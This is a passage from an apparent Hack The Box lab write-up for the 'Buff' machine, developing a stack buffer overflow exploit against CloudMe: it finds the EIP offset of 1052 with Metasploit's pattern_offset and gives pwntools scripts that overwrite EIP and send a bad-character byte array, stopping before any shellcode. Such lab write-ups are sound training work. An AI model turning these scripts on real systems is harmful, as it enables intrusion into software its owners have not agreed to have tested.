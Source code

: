 I check the registers and copy the value of EIP


![Desktop View](/assets/img/htb/buff/registers_2.png)


by quering the pattern I find that the offset is at 1052 bytes
```
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x316A4230
[*] Exact match at offset 1052
````

To prove this I send 1052 "U"s and 4 "f"s, if its correct I'll see 66666666 in the EIP register 

```python
from pwn import *

def exploit():
    
    buffer="\x55" * 1052
    eip="\x66" * 4

    payload = buffer + eip

    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit() 
```

Before running the exploit I reload cloudme.exe in the debugger.

After sending the new string I verify that I have control over the EIP and can continue creating the exploit 

![Desktop View](/assets/img/htb/buff/registers_3.png)

#### looking for badchars

I'll start searching for badchars that might affect the execution of the shellcode, to do this I will send a bytearray of all the characters from `\x00` to `xff`



```python
from pwn import *

def exploit():
    
    buffer="\x55" * 1052
    eip="\x66" * 4
    
    all_chars=("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

    payload = buffer + eip + all_chars

```